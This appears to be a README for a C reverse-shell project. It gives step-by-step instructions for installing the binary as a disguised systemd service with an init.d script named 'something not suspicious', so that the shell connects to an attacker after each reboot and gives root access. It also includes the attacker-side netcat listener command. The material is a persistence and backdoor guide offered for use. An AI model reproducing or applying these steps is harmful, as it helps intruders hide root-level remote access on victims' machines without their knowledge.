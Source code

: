 # reverse-shell
## DO NOT RUN THIS ON YOUR OWN COMPUTER UNLESS YOU WANT TO BE PWNED
A reverse shell written in c

## Installation and activation
* First, download this in the / directory, compile a binary, then mv a.out /
* Second, create a .sh file in /etc/init.d/ and name it something not suspicious. Use foo.sh as example
* Then, in /etc/systemd/system create a .service file (example included). Use foo.service as example
* $systemctl enable foo.service

## On the attacking box
* $nc -nvlp 4444
* When target box reboots or powers on, it will establish connection
* Wait for connection to pop
* Have root

